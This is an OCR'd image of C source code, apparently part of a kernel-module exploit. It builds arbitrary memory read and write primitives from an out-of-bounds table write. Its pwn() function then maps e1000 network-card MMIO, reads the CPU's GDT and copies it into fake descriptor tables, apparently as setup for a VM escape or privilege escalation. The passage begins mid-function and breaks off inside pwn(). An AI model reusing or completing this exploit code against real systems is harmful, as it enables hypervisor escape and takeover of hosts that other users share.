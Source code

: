 ```c
{
    return write_table(val, offset / 8);
}


__attribute__((always_inline))
static inline uint64_t addr_to_offset(uint64_t addr)
{
    uint64_t offset = addr - table_addr;
    return offset;
}

__attribute__((always_inline))
static inline uint64_t arb_read64(uint64_t addr)
{
    uint64_t offset = addr_to_offset(addr);
    return rel_read64(offset);
}

__attribute__((always_inline))
static inline void arb_write64(uint64_t addr, uint64_t val)
{
    uint64_t offset = addr_to_offset(addr);
    rel_write64(offset, val);
}

__attribute__((always_inline))
static inline void arb_write(uint64_t addr, void *buf, size_t num)
{
    size_t i = 0;
    uint64_t *buf_vals = (uint64_t *)buf;
    for (i = 0; i < ((num+7) / 8); i++) {
        arb_write64(addr + i*8, buf_vals[i]);
    }
}

void pwn(void)
{
    printk(KERN_WARN "Entering pwn (0x%llx)\n", &pwn);

    const uint64_t str_table_off = str_addr_binary_off - table_binary_off;
    const uint64_t e1000_phys = 0xf0000000;

    uint8_t *e1000_virt = (uint8_t *)(ioremap(e1000_phys, 4096));
    volatile uint32_t *eeprom_addr = (uint32_t *)(e1000_virt+0x10);

    uint32_t init_val = *eeprom_addr;
    mmio_addr = (uint64_t)eeprom_addr;

    printk(KERN_WARN "new ss val: 0x%lx\n", init_val);

    gdtr_t curr_gdtr = {};

    asm volatile(
        "sgdt %0"
        : "=m"(curr_gdtr) :: "memory"
    );

    printk(KERN_WARN "curr gdtr: 0x%llx (0x%x)\n", curr_gdtr.base, curr_gdtr.limit);

    size_t curr_size = curr_gdtr.limit+1;
    memset(fake_gdts, 0, sizeof(fake_gdts));
    memcpy(fake_gdts, curr_gdtr.base, curr_size);
```